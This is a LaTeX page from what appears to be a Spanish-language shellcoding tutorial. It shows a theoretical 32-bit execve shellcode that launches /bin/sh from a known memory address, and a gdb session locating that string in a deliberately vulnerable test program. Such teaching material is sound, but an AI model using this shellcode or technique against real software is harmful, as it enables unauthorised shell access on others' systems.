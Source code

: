 \documentclass [titlepage, 12pt]{article}
\begin{document}
Si un $exploit$ utilizara el $execve$ $shellcode$ para ejecutar un int\'erprete de comandos, es obvio que sabiendo donde est\'a ubicada en memoria la variable $command$ el $shellcode$ ser\'ia m\'as peque\~no. As\'i pues, suponiendo que la variable est\'a ubicada en la direcci\'on de memoria $direcciondememoria$, un $shellcode$ funcional podr\'ia ser el siguiente:

\lstset{language=[x86masm]Assembler,caption=$Execve$ $shellcode$ te\'orico}
\begin{lstlisting}
BITS 32
xor eax, eax
cdq
mov byte al, 11
push edx
push long 'direcciondememoria'
mov ebx, esp
push edx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
\end{lstlisting}

La correcta ejecuci\'on de este $shellcode$ no se puede demostrar sin tener una base m\'inima sobre la explotaci\'on de $buffers$. Este $shellcode$ no se podr\'ia ejecutar sin haber explotado un programa vulnerable, ya que la direcci\'on de memoria  $direcciondememoria$ pertenece al programa vulnerable y ning\'un otro programa puede acceder a ella.\\
Cuando se explota un programa vulnerable, es este mismo programa el que acaba ejecutando las instrucciones del $shellcode$ y, debido a esto, el programa podr\'a acceder a la posici\'on de memoria donde se ha ubicado la cadena y ejecutar el $shellcode$. \\
\\

Para descubrir cual es la direcci\'on de memoria donde se almacena el contenido de la variable $command$ se puede proceder tal que as\'i:

\begin{listing}[style=consola, numbers=none, caption=An\'alisis con $gdb$]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ gcc -g vuln.c -o vuln
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Vulnerable$ gdb -q vuln
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/Vulnerable/vuln...hecho.
(gdb) b abuso
Punto de interrupción 1 at 0x804844a: file vuln.c, line 5.
(gdb) run AAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/Vulnerable/vuln AAA

Breakpoint 1, abuso () at vuln.c:5
5		char * command = "/bin/sh";
(gdb) n
6		printf("%
(gdb) x/2x command
0x8048580:	0x6e69622f	0x0068732f
(gdb) quit
Una sesión de depuración está activa.

	Inferior 1 [process 2643] will be killed.

¿Salir de cualquier modo? (y o n) y
\end{listing}
\end{document}
